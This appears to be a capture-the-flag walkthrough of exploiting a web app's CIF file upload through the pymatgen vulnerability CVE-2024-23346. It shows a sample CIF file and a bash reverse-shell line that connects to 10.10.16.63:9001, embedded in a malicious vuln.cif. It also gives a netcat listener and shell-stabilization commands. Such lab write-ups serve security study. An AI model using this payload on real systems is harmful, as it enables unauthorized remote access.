









Once on this page, we observe that there is an option to upload files. However, since we do not know what type of files are allowed, we notice that the web application itself provides an example of acceptable files. Therefore, we download this file in order to analyze it.



The file that we downloaded was “example.cif”. If we search in Google what kind of file is, we found →  Crystallographic Information File (CIF) is a standard text file format for representing crystallographic information, promulgated by the International Union of Crystallography (IUCr).

We will open the file “example.cif”



In this case we use ChatGPT to know what is that and this file essentially describes a simple crystalline structure of water (H₂O)  placed inside an idealized cubic unit cell.
```bash
Unit cell lengths (in Ãngstroms)
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000

Angles between the unit cell axes (cubic structure).
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000

Crystalline symmetry group (P1, no additional symmetry).
_symmetry_space_group_name_H-M 'P 1'

Defines a table containing atomic information.
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 
 H- (hydrogen) and O- (oxygen)
  H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
 ```
Searching in google about vulnerabilities with .cif files, we found CVE-2024-23346: Exploiting a Malicious CIF File for Remote Code Execution.

We found too a github link https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f



As a Github post shows, we will create a mlicious .cif file.
 ```bash
$ nano vuln.cif
```



We add to this code this to get a reverse shell;
```bash 
$ /bin/bash -c \'/bin/bash -i >& /dev/tcp/10.10.16.63/9001 0>&1\''
```



Now we will open a listener
```bash
$ nc -lvnp 9001 
```
And we will upload the malicious vuln.cif file to the webpage



Once uploaded we click in “View” and we will get a reverse shell in our listener



 
Now we will do a TTY treatment:
```bash
$ script /dev/null -c bash

$ ctrl+z

$ stty raw -echo; fg

$ reset xterm

$ export TERM=xterm
```



Now we can do ctrl+c without problems




[Back](README.md)